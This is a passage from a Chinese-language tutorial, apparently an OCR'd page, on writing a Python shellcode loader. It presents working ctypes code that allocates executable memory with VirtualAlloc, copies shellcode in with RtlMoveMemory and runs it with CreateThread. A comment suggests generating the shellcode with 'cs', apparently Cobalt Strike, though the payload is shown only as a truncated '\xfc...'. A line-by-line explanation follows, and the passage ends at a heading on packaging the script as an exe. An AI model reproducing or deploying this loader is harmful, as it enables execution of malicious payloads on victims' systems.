实际上还是借助那些windows api , 但是copy内存的上面是c标准库的函数, 实际上windows 自带的也有copy内存的函数, 那么接下来的编写流程也非常清楚了, 就是如何通过Python代码实现上述那些函数的调用, 以及在Python中16进制的shellcode是如何字面量定义的

```python
# 导入 ctypes库
import ctypes
# 从ctypes库中导入windows api函数
VirtualAlloc = ctypes.windll.kernel32.VirtualAlloc
RtlMoveMemory = ctypes.windll.kernel32.RtlMoveMemory
CreateThread = ctypes.windll.kernel32.CreateThread
WaitForSingleObject = ctypes.windll.kernel32.WaitForSingleObject
# shellcode可以用cs来生成
buf = b"\xfc..."
# shellcode转成bytearray类型
sc = bytearray(buf)
# 设置VirtualAlloc
VirtualAlloc.restype = ctypes.c_uint64 # 重载函数返回类型为c_uint64
p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(sc)), 0x3000, 0x00000040) # 申请内存
buf = (ctypes.c_char * len(sc)).from_buffer(sc) # 将sc指向指针
RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(sc))) # 复制sc进申请的内存中
h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), 
ctypes.c_int(0),
ctypes.pointer(ctypes.c_int(0))) # 执行创建线程
WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1)) # 检测线程创建事件
# ctypes.c_int(0) NULL/0
# ctypes.c_void_p(p) 指针类型
```

解释每个部分：

1. import ctypes : 导入 ctypes 模块，这个模块提供了与 C 语言兼容的数据类型和函数调用方式。
2. VirtualAlloc , RtlMoveMemory , CreateThread , WaitForSingleObject : 这些变量是通过 ctypes 
获取 kernel32.dll 中相关函数的句柄，用于内存操作和线程创建等操作。
3. buf = b"\xfc..." : 定义了一个包含 shellcode 的字节数组。这里的 \xfc... 表示 shellcode 的二进
制内容。
4. shellcode = bytearray(buf) : 将 shellcode 转换为 bytearray 类型。
5. VirtualAlloc.restype = ctypes.c_uint64 : 设置 VirtualAlloc 函数的返回类型为 c_uint64 。
6. p = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), 0x3000, 0x00000040) : 调用 
VirtualAlloc 分配内存，用于存放 shellcode。 0x3000 表示分配提交（MEM_COMMIT）和保
留（MEM_RESERVE）的内存， 0x00000040 表示分配可执行
（PAGE_EXECUTE_READWRITE）的内存。
7. buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode) : 将 shellcode 的内容指向指针。
8. RtlMoveMemory(ctypes.c_void_p(p), buf, ctypes.c_int(len(shellcode))) : 使用 RtlMoveMemory
函数将 shellcode 复制到申请的内存中。
9. h = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_void_p(p), ctypes.c_int(0), 
ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0))) : 调用 CreateThread 创建一个新线程，将刚才分
配的内存作为线程的起始地址。
10. WaitForSingleObject(ctypes.c_int(h), ctypes.c_int(-1)) : 使用 WaitForSingleObject 等待线程的结
束。 -1 表示无限等待，直到线程结束

**这段代码的作用是将 shellcode 放入申请的内存空间，创建一个新的线程，并在新线程中执行 shellcode。**

## 5.2Python打包exe
